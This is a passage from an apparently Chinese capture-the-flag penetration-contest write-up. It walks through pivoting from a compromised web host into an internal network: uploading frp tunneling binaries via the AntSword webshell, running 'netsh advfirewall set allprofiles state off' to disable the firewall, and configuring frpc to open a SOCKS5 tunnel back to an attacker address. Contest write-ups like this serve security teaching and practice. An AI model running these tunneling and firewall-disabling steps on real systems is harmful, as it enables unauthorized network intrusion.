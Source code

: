把frpc.exe和frpc.ini上传到OA

![image-20220530175304000000-1656056114952507.png](img/中小型企业环境网络安全渗透赛 local/4b2204de5cdd0a3b5f6bbf51dd8c8fcb.png)

复制一份frps.exe和frps.ini，修改frps.ini的内容如下，并通过蚁剑上传到web站点

```
#bind_addr为web主机的地址
[common]
bind_addr = 56.47.33.65
bind_port = 7000
```

![image-20220530175454000000-1656056116685595.png](img/中小型企业环境网络安全渗透赛 local/6e2baac955eb7178343ec8af051cc58a.png)

在蚁剑中执行如下命令:

````
frps.exe -c frps.ini
web关防火墙：
netsh advfirewall set allprofiles state off
````

![image-20220530175718000000-1656056118346524.png](img/中小型企业环境网络安全渗透赛 local/0acf52f619b1466edf7517c5cdb951ad.png)

![image-20220530175904000000-1656056120068785.png](img/中小型企业环境网络安全渗透赛 local/5d10d9b2a81d4dcf3b21a2e9a89e978e.png)

在蚁剑中的OA（上传frpc文件的目录）的shell中执行：

```
frpc.exe -c frpc.ini
```

![image-20220530180104000000-1656056121702093.png](img/中小型企业环境网络安全渗透赛 local/aed5ac0d93ba9d9f8145acb34f4fb175.png)

![image-20220530180230000000-1656056123324262.png](img/中小型企业环境网络安全渗透赛 local/3d1ae63f80ac8b332251dbc34e193215.png)

在蚁剑中修改web站点frpc.ini的内容如下：

```
#server_addr为攻击机地址
[common]
server_addr = 56.47.34.x
server_port = 7000

[plugin_socks5]
type = tcp
local_ip = 56.47.33.65
local_port = 7891
remote_port = 7891
```

把frpc的进程kill掉

```
按pid号kill，需先执行tasklist命令查看
taskkill /f /pid x

按进程名kill
taskkill /f /im frpc.exe
```
